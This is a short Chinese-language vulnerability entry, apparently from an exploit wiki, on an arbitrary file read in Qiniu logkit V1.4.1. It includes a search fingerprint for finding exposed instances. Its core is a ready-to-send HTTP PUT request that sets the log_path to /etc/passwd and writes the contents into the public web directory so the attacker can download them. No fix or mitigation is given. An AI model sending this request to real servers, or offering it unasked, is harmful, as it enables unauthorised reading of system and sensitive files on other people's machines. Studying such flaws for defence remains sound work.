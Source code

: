 # 七牛云 logkit log_path 任意文件读取漏洞

## 漏洞描述

七牛云 logkit log_path 参数可自定义读取服务器文件，配合读取的文件写入Web目录将会使攻击者读取到服务器任意文件，造成服务器敏感信息泄漏

## 漏洞影响

<a-checkbox checked>七牛云 logkit V1.4.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="七牛Logkit配置文件助手"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1650509317464-3b428310-57b3-4323-86b8-3bc96270dc91.png)

发送请求包配置读取文件

```php
PUT /logkit/configs/passwdread HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 356
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

{
  "name": "passwdread",
  "batch_interval": 1,
  "collect_interval": 1,
  "reader": {
    "mode": "file",
    "log_path": "/etc/passwd",
    "read_from": "oldest",
    "datasource_tag": "datasource",
    "encoding": "UTF-8"
  },
  "parser": {
    "type": "raw",
    "name": "parser",
    "timestamp": "true"
  },
  "transforms": [],
  "senders": [
    {
      "sender_type": "file",
      "file_send_path": "/app/public/passwd.log"
    }
  ]
}
```

![img](../../../.vuepress/public/img/1650509841938-35e81793-6098-43ee-815d-311b45da7575.png)

![img](../../../.vuepress/public/img/1650509983538-d5d3c3ef-8961-420a-b6e7-a7b2d526e585.png)

请求读取的文件 /app/public 目录为Docker默认Web路径，写入可读取目标文件

![img](../../../.vuepress/public/img/1650509901001-6b9e9d97-8540-40cb-84f8-4b30523e1491.png)